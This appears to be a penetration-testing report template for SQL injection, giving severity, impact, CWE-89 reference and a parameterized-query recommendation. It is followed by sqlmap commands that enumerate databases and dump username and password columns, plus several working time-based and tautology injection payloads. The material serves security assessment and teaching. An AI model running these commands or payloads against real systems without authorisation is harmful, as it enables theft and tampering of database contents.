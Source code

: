 ### SQL Injection

| Vulnerability          | SQL Injection                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|:---------------------- |:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Severity**           | **HIGH**                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| **Affected URL**       | <insert the affected url\(s\)>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| **Tools**              | Burp Suite, [SQLmap](https://github.com/gh1mau/vapt/blob/main/poc/sql_injection.md#sqlmap)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| **Techniques/ Method** | URL Fuzzing, Parameter Tampering                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| **Proof of Concept**   | <insert POC screenshot\(s\)>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| **Payload\(s\)**       | [List of possible payload](https://github.com/gh1mau/vapt/blob/main/poc/sql_injection.md#possible-payloads)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| **Description**        | SQL injection (SQLi) refers to an injection attack wherein an attacker can execute malicious SQL statements that control a web application's database server.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| **Impact**             | An attacker can use SQL injection it to bypass a web application's authentication and authorization mechanisms and retrieve the contents of an entire database. SQLi can also be used to add, modify and delete records in a database, affecting data integrity. Under the right circumstances, SQLi can also be used by an attacker to execute OS commands, which may then be used to escalate an attack even further.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| **CVE/CWE/OSVDB**      | CWE-89                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| **Recommendation**     | **Use parameterized queries when dealing with SQL queries that contains user input. Parameterized queries allows the database to understand which parts of the SQL query should be considered as user input, therefore solving SQL injection.**<br/><br/>In order for an SQL injection attack to take place, the vulnerable website needs to directly include user input within an SQL statement. An attacker can then insert a payload that will be included as part of the SQL query and run against the database server.<br/>Parameterized queries are simple to write and understand while forcing a developer to define the entire SQL statement before hand, using placeholders for the actual variables within that statement. A developer would then pass in each parameter to the query afer the SQL statement is defined, allowing the database to be able to distinguish between the SQL command and data inputted by a user. If SQL commands are inputted by an attacker, the parameterized query would treat the input as a string as opposed to an SQL command.<br/>Application developers should avoid sanitizing their input by means of escaping or removing special characters (several encoding tricks an attacker could leverage to bypass such protections) and stick to using parameterized queries in order to avoid SQL injection vulnerabilities. |
| References             | [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)<br/>[Bobby Tables: A guide to preventing SQL injection](https://bobby-tables.com/)<br/>[CWE-89: Improper Neutralization of Special Elements used in an SQL Command (SQL Injection)](https://cwe.mitre.org/data/definitions/89.html)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |

---

### Tools :

#### SQLmap

Reference: [Usage · sqlmapproject/sqlmap Wiki · GitHub](https://github.com/sqlmapproject/sqlmap/wiki/Usage)

```bash
# crawl and pipe to proxy(burp)
$ sqlmap -u "http://localhost" --forms --batch --crawl=10 --level=5 --risk=3
$ sqlmap -r myapps --proxy=http://127.0.0.1:8080 --random-agent --level=5 --risk=3


```

```bash
# time based , mysql dbms
$ sqlmap -r myapps --random-agent --level=5 --risk=3 --dbms=mysql --technique=T

# enumeration(list out databases):
$ sqlmap -r myapps --random-agent --level=5 --risk=3 --dbs

# enumeration(list out tables from sample_db):
sqlmap -r myapps --random-agent --level=5 --risk=3 -D sample_db --tables

# enumeration(list out columns from sample_table from sample_db):
sqlmap -r myapps --random-agent --level=5 --risk=3 -D sample_db -T sample_table --columns

# enumeration(dump data from specific columns (username, password):
sqlmap -r myapps -v4 --random-agent --risk=3 -D sample_db -T sample_table -C username, password --dump
```

---

### Possible Payloads

```sql
-1' OR 3*2*1=6 AND 000666=000666 --

# time-based blind
5555' AND (SELECT 3841 FROM (SELECT(SLEEP(5)))BQTt)-- 

OfoO'||(SELECT 0x77416d57 FROM DUAL WHERE 7899=7899 AND (SELECT 1651 FROM (SELECT(SLEEP(5)))yxfO))
```
